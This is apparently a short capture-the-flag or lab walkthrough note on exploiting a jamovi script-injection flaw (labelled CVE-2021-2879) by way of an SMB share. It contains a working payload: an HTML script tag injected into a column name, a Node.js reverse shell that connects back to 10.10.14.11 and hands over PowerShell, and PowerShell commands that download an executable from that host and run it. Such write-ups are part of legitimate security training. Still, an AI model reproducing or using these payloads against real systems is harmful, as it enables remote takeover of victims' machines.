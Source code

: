 # SMB

![[Pasted image 20210820155938.png]]


# CVE-2021-2879

https://www.youtube.com/watch?v=x94W2kzoBbc

* Take one of the files and modify the column name with 

```html
<script src="http://10.10.14.11/jamovi.js" />
```

![[Pasted image 20210820160109.png]]

* jamovi.js

```javascript
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("powershell", []);
    var client = new net.Socket();
    client.connect(9002, "10.10.14.11", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
``` 

* Upload back to the SMB and wait for the HIT

![[Pasted image 20210820160140.png]]

* Imediately run

```powershell
cd \windows\temp
wget http://10.10.14.11/shell.exe -o shell.exe
.\shell.exe
```